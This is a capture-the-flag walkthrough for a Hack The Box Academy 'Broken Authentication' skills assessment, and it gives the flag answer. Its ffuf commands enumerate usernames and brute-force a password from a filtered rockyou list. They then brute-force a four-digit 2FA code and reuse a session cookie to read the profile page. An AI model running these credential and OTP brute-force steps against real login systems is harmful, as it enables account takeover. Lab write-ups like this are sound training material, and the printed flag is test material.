

# [Broken Authentication](https://academy.hackthebox.com/module/details/80)

## Skills Assessment

You are tasked to perform a security assessment of a client's web application. For the assessment, the client has not provided you with credentials. Apply what you have learned in this module to obtain the flag.

### Questions

#### Question #01

**Question**

Obtain the flag.


```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-qjsisqe9i2]─[~]
└──╼ [★]$ ffuf -w /opt/useful/seclists/Usernames/xato-net-10-million-usernames.txt -u http://83.136.253.105:53072/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown username"

[SNIP]

gladys                  [Status: 200, Size: 4344, Words: 680, Lines: 91, Duration: 17ms]

[SNIP]
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-qjsisqe9i2]─[~]
└──╼ [★]$ wc -l /usr/share/wordlists/rockyou.txt 

14344392 /usr/share/wordlists/rockyou.txt

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-qjsisqe9i2]─[~]
└──╼ [★]$ grep -E '^[a-zA-Z0-9]{12}$' /usr/share/wordlists/rockyou.txt | grep '[[:upper:]]' | grep '[[:lower:]]' | grep '[[:digit:]]' > custom_passwords.txt

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-qjsisqe9i2]─[~]
└──╼ [★]$ wc -l custom_passwords.txt 

17048 custom_passwords.txt
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-qjsisqe9i2]─[~]
└──╼ [★]$ ffuf -w custom_passwords.txt -u http://83.136.253.105:53072/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=gladys&password=FUZZ" -fr "Invalid credentials"

[SNIP]

dWinaldasD13            [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 17ms]

[SNIP]
```





```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-qjsisqe9i2]─[~]
└──╼ [★]$ seq -w 0 9999 > tokens.txt

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-qjsisqe9i2]─[~]
└──╼ [★]$ ffuf -w tokens.txt -u http://83.136.253.105:53072/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -H "Cookie: PHPSESSID=s73vq3i7a692sm0kdg5mu9lfp5" -d "otp=FUZZ" -fr "Invalid OTP"

[SNIP]
❌
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-qjsisqe9i2]─[~]
└──╼ [★]$ curl http://83.136.253.105:53072/profile.php -X GET -H "Cookie: PHPSESSID=s73vq3i7a692sm0kdg5mu9lfp5"

[SNIP]

      HTB{d86115e037388d0fa29280b737fd9171}

[SNIP]
```

**Answer**

```
HTB{d86115e037388d0fa29280b737fd9171}
```

---
---
